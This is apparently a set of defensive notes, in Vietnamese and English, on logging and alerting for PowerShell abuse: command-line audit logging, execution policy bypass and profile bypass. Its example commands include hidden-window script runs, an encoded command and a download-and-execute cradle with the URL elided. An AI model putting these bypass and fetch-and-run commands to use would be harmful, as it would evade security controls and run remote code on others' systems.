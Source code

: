 ## 1. Command Line Logging

```
reg add "hklm\software\microsoft\windows\currentversion\policies\system\audit" /v ProcessCreationIncludeCmdLine_Enabled /t REG_DWORD /d 1
```

- **A registry key or GPO change is required to add the “Command Line” entry to every event ID 4688 event.**
- **All powershell command will be logged on Event ID 4688.**

## 2. Execution Policy Bypass
**Execution Policy** là một cơ chế bảo mật của **Windows PowerShell** dùng để **kiểm soát cách script được chạy**, nhằm **ngăn mã độc hoặc script không rõ nguồn gốc**.

**Execution Policy** can be bypassed by anyone with some command-line parameters. Alert on the execution of the following:

| Parameters                      | Desciption                                            |
| ------------------------------- | ----------------------------------------------------- |
| `-ExecutionPolicy Bypass`       | **Bỏ qua hoàn toàn execution policy**                 |
| `-Ep Bypass` / `-Exec Bypass`   | Viết tắt của trên                                     |
| `-ExecutionPolicy Unrestricted` | PowerShell **sẽ chạy mọi script**, kể cả từ internet. |
**For example:**
```
powershell.exe -ExecutionPolicy Bypass -File malware.ps1
powershell.exe -Ep Bypass -File backdoor.ps1
powershell.exe -ExecutionPolicy Unrestricted -Command "Invoke-WebRequest ..."
```

## 3. Powershell Profile Bypass
**PowerShell Profile** là **một file script `.ps1`** mà PowerShell tự động chạy khi khởi động session. Bạn có thể dùng profile để:
- Tạo alias cá nhân
- Tự động import module
- Tự động logging, block command,...

**Path:**
 `C:\Users\<username>\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1`

**How to create Powershell Profile:**
```
Test-Path $PROFILE
New-Item -ItemType File -Path $PROFILE -Force
notepad $PROFILE
```


**The profile(s)** you set to configure PowerShell when each session is launched can also be bypassed. Alert on the execution of the following:

| Parameters   | Description                        |
| ------------ | ---------------------------------- |
| `-noprofile` | Không chạy Powershell Profile file |
| `-nop`       | Viết tắt, thường dùng trong mã độc |
Điều này khiến **PowerShell không load được Profile**, bỏ qua:
- GPO hạn chế script
- Logging tự cấu hình
- Alias bị giám sát
- Module bảo mật

**For example:**
```
powershell.exe -noprofile -ExecutionPolicy Bypass -EncodedCommand ...
powershell.exe -nop -w hidden -c IEX (New-Object Net.WebClient).DownloadString(...)
```

## 4. Some form of command

```
powershell.exe -executionpolicy bypass –noprofile –windowstyle hidden –file malicious.ps1
```

```
powershell.exe -NonInteractive -WindowStyle Hidden -Ep bypass –nop –File “malicious.ps1"
```

```
powershell.exe –e ZQBjAGgAbwAgACcAWQBvAHUAIABhAHIAZQAgAHAAdwBuAGUAZAAhACcA == (encoded)
```